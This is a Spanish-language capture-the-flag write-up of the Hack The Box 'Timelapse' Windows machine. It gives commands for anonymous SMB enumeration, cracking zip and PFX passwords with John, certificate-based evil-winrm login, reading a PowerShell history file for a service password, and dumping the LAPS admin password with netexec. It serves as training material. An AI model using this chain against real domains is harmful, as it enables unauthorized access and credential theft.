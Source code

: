 # Timelapse

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FUX8f4cQMP0lzRlzPKfy6%2FTimelapse.png?alt=media&#x26;token=23875d92-3665-4aa4-99da-8c9ecf64aa3c" alt=""><figcaption></figcaption></figure>

## Enumeración

```bash
PORT      STATE SERVICE           VERSION
53/tcp    open  domain            Simple DNS Plus
88/tcp    open  kerberos-sec      Microsoft Windows Kerberos (server time: 2025-05-08 05:55:02Z)
135/tcp   open  msrpc             Microsoft Windows RPC
139/tcp   open  netbios-ssn       Microsoft Windows netbios-ssn
389/tcp   open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ldapssl?
3268/tcp  open  ldap              Microsoft Windows Active Directory LDAP (Domain: timelapse.htb0., Site: Default-First-Site-Name)
3269/tcp  open  globalcatLDAPssl?
5986/tcp  open  ssl/http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_ssl-date: 2025-05-08T05:56:42+00:00; +1h42m16s from scanner time.
|_http-server-header: Microsoft-HTTPAPI/2.0
| ssl-cert: Subject: commonName=dc01.timelapse.htb
| Not valid before: 2021-10-25T14:05:29
|_Not valid after:  2022-10-25T14:25:29
| tls-alpn: 
|_  http/1.1
|_http-title: Not Found
9389/tcp  open  mc-nmf            .NET Message Framing
49667/tcp open  msrpc             Microsoft Windows RPC
49673/tcp open  ncacn_http        Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc             Microsoft Windows RPC
49695/tcp open  msrpc             Microsoft Windows RPC
49727/tcp open  msrpc             Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 1h42m13s, deviation: 3s, median: 1h42m10s
| smb2-time: 
|   date: 2025-05-08T05:55:57
|_  start_date: N/A
```

### SMB

El servicio smb permite el acceso sin credenciales, podemos corroborarlo con este comando:\\

```bash
netexec smb timelapse.htb -u '' -p ''
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FQlNbQdJ4xiRvjs1Y2qjd%2Fimage.png?alt=media&#x26;token=bca84ef8-040f-4b12-b78e-26c2c654a026" alt=""><figcaption></figcaption></figure>

Ahora con smbmap podemos enumerar que hay ahí dentro:

```bash
smbmap -H timelapse.htb -u 'a' -p ''
```

Podemos ver que tenemos acceso de lectura a un recurso compartido llamado SHARES:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FDiHxlXqbpnXw2I1dkWPS%2Fimage.png?alt=media&#x26;token=0f497788-790d-4496-a630-bf3e0a934e3a" alt=""><figcaption></figcaption></figure>

Si enumeramos mas en profundidad ese recurso compartido podremos ver 2 carpetas dentro:

```bash
smbmap -H timelapse.htb -u 'a' -p '' -r Shares
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F3AgG9GFqJMdo8uUkBmWO%2Fimage.png?alt=media&#x26;token=48abff6b-a825-4fd6-9aa4-8b2be407c89a" alt=""><figcaption></figcaption></figure>

El si enumeramos cada uno podemos ver como la carpeta Dev tiene el archivo `winrm_backup.zip`

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fkwlmwml8JS3BybopM1jV%2Fimage.png?alt=media&#x26;token=40678717-cf73-45c1-a891-d4bba459b2df" alt=""><figcaption></figcaption></figure>

Vamos a llevarnos este archivo a nuestro equipo local y vamos a descomprimirlo:

```bash
smbclient \\\\timelapse.htb\\Shares\\Dev
smb:> get winrm_backup.zip
```

## Explotación

### ZIP

Si intentamos extraer el archivo podemos ver que está protegido por contraseña

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fq4nsXezGqOQzW1eAUK2Q%2Fimage.png?alt=media&#x26;token=7fc26234-22b1-49a3-943f-6e20b8d907d4" alt=""><figcaption></figcaption></figure>

Con zip2john podemos tratar de conseguir un hash crackeable y crackearlo offline.

```
zip2john winrm_backup.zip > hash.txt
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FPR1B7FKFwRthNESKwjte%2Fimage.png?alt=media&#x26;token=5ae9b7cc-1094-4a09-a84e-348392aad43b" alt=""><figcaption></figcaption></figure>

### PFX

Esto nos va a extraer un archivo `.pfx` llamado `legacyy_dev_auth.pfx` . Los archivos pfx son la fusión de 2 archivos, un certificado digital y su clave privada.

Usamos el siguiente comando para sacar ambos archivos del pfx:

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -out priv-key.pem -nodes
```

Nos vuelve a pedir contraseña por que las claves privadas tienen contraseña y estamos pidiendo con el argumento -nodes que nos la extraiga sin contraseña.

Podemos intentar volver a romperla con john de la misma manera que antes:

```bash
pfx2john legacyy_dev_auth.pfx > hash.txt
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FegXCKtMt8IauiqGW9z3A%2Fimage.png?alt=media&#x26;token=abacb137-b261-4bf2-9202-ebc5077b1936" alt=""><figcaption></figcaption></figure>

y ahora ya podremos extraer el certificado y la clave:\\

```bash
openssl pkcs12 -in legacyy_dev_auth.pfx -nokeys -out certificado.pem -nodes
(sacamos certificado)
openssl pkcs12 -in legacyy_dev_auth.pfx -nocerts -out clave.pem -nodes
(sacamos clave)
```

Ahora que tenemos el certificado y la clave podemos intentar conectarnos por Remote Management a ver si funciona.

```bash
evil-winrm -i 10.10.11.152 -c certificado.pem -k clave.pem -S
```

> el argumento -S es porque queremos autenticarnos contra el winrm del puerto 4896 y no el del 4895

Y tendrémos una shell con el usuario legacy! Ahora podemos ver la user.txt

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FqziOvtgs3lxDPUSlZQ2A%2Fimage.png?alt=media&#x26;token=22356d02-17c9-4c33-b7c3-b2b6d17c1d9d" alt=""><figcaption></figcaption></figure>

## Escalada

### Enumeración de usuarios

Ahora que  tenemos una shell podemos con net users ver los usuarios y investigar un poco:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FEen9y2vkxaGWZQvZ9W4V%2Fimage.png?alt=media&#x26;token=a91ae01f-e5a5-44b4-86fc-3e93365aacfb" alt=""><figcaption></figcaption></figure>

Si inspeccionamos un poco los usuarios con `net user`  podemos ver que el usuario svc\_deploy está en un grupo llamado `LAPS_Readers` .&#x20;

LAPS (Local Administrator Password Solution) es una herramienta de Microsoft que permite gestionar y hacer copias de seguridad de las contraseñas de las cuentas de administrador local en equipos que están unidos a un dominio de Active Directory. Como se puede observar, suena a que es un grupo crítico.

Existen herramientas para explotar usuarios con este grupo pero necesitamos las credenciales de ese usuario primero.

### Historial de PowerShell

SI miramos el historial de PowerShell del usuario legacy podemos observar la contraseña del usuario svc\_deploy:

{% code overflow="wrap" %}

```bash
type C:\Users\legacyy\Appdata\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

{% endcode %}

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FnvXTY1V59haWizRPNTk8%2Fimage.png?alt=media&#x26;token=5b8497ee-64c3-4f32-820b-b1f581a59902" alt=""><figcaption></figcaption></figure>

Comprobamos si las credenciales son correctas:

```bash
netexec ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV'
```

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FsXQOW7kqhGYKniTtYLvL%2Fimage.png?alt=media&#x26;token=2ae7ab93-b46b-4b71-9e76-0dfc9091ba98" alt=""><figcaption></figcaption></figure>

Y efectivamente es valido. Ahora que ya tenemos las credenciales de su usuario ya podemos empezar a explotar el LAPS.

### LAPS

Como había mencionado anteriormente hay herramientas especificas que explotan esto pero `netexec`  ya ofrece esa función así que vamos a utilizarlo:

```bash
netexec ldap timelapse.htb -u 'svc_deploy' -p 'E3R$Q62^12p7PLlC%KWaxuaV' -M laps
```

> La clave está en el parametro -M que es para indicar un modulo, y ahí ponemos el modulo laps que trae incluido netexec.

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FVYXN4f8SWXY0kyviF1bK%2Fimage.png?alt=media&#x26;token=11d2651c-0ec4-4295-8e72-8c3a0e4a1d6b" alt=""><figcaption></figcaption></figure>

Como podemos ver nos ha dumpeado una contraseña, que muy seguramente sea del administrador, vamos a comprobarlo:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FvFr2yumeI7Pq5QaZikyC%2Fimage.png?alt=media&#x26;token=c593a464-68b8-46ec-97d2-3486170e9211" alt=""><figcaption></figcaption></figure>

Y efectivamente, ahora vamos a intentar a ver si podemos conectarnos pon winrm para obetener una shell:

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2FhoJTl36AuPDi6lZddjlN%2Fimage.png?alt=media&#x26;token=2a12a67e-e29a-4a8e-985a-790a370da894" alt=""><figcaption></figcaption></figure>

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2F1YWcaHZ5QJE6dRzT8sQr%2Fimage.png?alt=media&#x26;token=2c2a7f29-b6e1-4a8c-abe4-89f01e8abb4a" alt=""><figcaption></figcaption></figure>

Ahora ya tenemos acceso a `root.txt`&#x20;

<figure><img src="https://3021530757-files.gitbook.io/~/files/v0/b/gitbook-x-prod.appspot.com/o/spaces%2Fi2UzPPwLQcMVfFsR8VSd%2Fuploads%2Fwe3JAxsebo3hCLTvbple%2Fimage.png?alt=media&#x26;token=028bfd7b-a9c2-4ef7-b842-c0089d685817" alt=""><figcaption></figcaption></figure>

Y así la maquina estará Pwned! Gracias por leer!
